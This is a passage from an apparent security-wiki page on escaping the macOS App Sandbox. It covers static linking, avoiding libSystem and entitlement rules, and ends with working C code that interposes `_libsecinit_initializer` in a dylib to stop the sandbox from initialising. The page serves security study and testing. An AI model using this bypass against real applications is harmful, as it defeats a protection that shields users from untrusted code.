 {% content-ref url="../../../macos-proces-abuse/" %}
[macos-proces-abuse](../../../macos-proces-abuse/)
{% endcontent-ref %}

### Static Compiling & Dynamically linking

[**This research**](https://saagarjha.com/blog/2020/05/20/mac-app-store-sandbox-escape/) discovered 2 ways to bypass the Sandbox. Because the sandbox is applied from userland when the **libSystem** library is loaded. If a binary could avoid loading it, it would never get sandboxed:

* If the binary was **completely statically compiled**, it could avoid loading that library.
* If the **binary wouldn't need to load any libraries** (because the linker is also in libSystem), it won't need to load libSystem.&#x20;

### Shellcodes

Note that **even shellcodes** in ARM64 needs to be linked in `libSystem.dylib`:

```bash
ld -o shell shell.o -macosx_version_min 13.0
ld: dynamic executables or dylibs must link with libSystem.dylib for architecture arm64
```

### Entitlements

Note that even if some **actions** might be **allowed by at he sandbox** if an application has an specific **entitlement**, like in:

```scheme
(when (entitlement "com.apple.security.network.client")
      (allow network-outbound (remote ip))
      (allow mach-lookup
             (global-name "com.apple.airportd")
             (global-name "com.apple.cfnetwork.AuthBrokerAgent")
             (global-name "com.apple.cfnetwork.cfnetworkagent")
             [...]
```

### Interposting Bypass

For more information about **Interposting** check:

{% content-ref url="../../../mac-os-architecture/macos-function-hooking.md" %}
[macos-function-hooking.md](../../../mac-os-architecture/macos-function-hooking.md)
{% endcontent-ref %}

#### Interpost `_libsecinit_initializer` to prevent the sandbox

```c
// gcc -dynamiclib interpose.c -o interpose.dylib

#include <stdio.h>

void _libsecinit_initializer(void);

void overriden__libsecinit_initializer(void) {
    printf("_libsecinit_initializer called\n");
}

__attribute__((used, section("__DATA,__interpose"))) static struct {
	void (*overriden__libsecinit_initializer)(void);
	void (*_libsecinit_initializer)(void);
}
_libsecinit_initializer_interpose = {overriden__libsecinit_initializer, _libsecinit_initializer};
```
